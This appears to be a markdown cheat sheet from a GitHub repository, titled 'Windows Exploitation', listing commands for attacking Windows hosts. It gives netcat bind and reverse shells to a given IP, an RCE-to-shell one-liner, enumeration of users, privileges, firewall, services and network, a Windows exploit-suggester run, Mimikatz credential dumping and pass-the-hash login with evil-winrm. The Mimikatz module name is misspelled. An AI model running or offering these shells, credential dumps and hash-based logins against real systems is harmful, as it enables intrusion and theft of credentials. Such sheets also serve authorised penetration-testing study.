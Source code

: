 # Windows Exploitation

## === Remote Desktop ===

```bash
# xfreerdp
xfreerdp /u:username /p:password /v:10.10.10.1:3389 /drive:/z3r0 +clipboard 
```

## === Upgrading Shells ===

```bash
# rce to shell
system("start cmd.exe /k $cmd")
```

## === Shells ===

```bash
# bind shell
nc.exe -Lp 1337 -vv -e cmd.exe
# reverse shell
nc.exe 192.168.1.1 1337 -e cmd.exe

```

## === Enumeration Commands ===

### Basic Commands
```bash
hostname
# user info
echo %username%
getuid
whoami
whoami /priv
# all user info
net users
net users Administrator
# firewall
netsh firewall show state
netsh firewall show config
# scheduled tasks
schtasks /query /fo LIST /v 
# services
net start
wmic service list brief
tasklist /SVC
```

### Versions
```bash
# patches, architecture, os
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
# os version
type c:/windows/system32/eula.txt
```

### Network
```bash
# basic info
ipconfig /all & route print & arp -a 
# connections
netstat -aton
```

### Searching
(common world writable folders: ...)
```bash
# find
dir /S /B file
# grep
findstr /spin /c:"pattern" file
findstr /S /I /M /C:"pattern" *.*
```

## === Privelege Escalation ===

### Exploit Suggester
```bash
systeminfo
# take output and put into systeminfo.txt
python windows-expoit-suggester.py --database 2020-09-27-mssb.xls --systeminfo systeminfo.txt
```

### Mimikatz
```bash
./mimikatz.exe 
	privilege::debug
	sukurlsa::logonpasswords
evil-winrm -i 10.10.10.1 -u Administrator -H $NTLM
```

## === Links to Resources ===
- [Windows Elevation of Privileges ToC by WindowsOp](https://guif.re/windowseop)
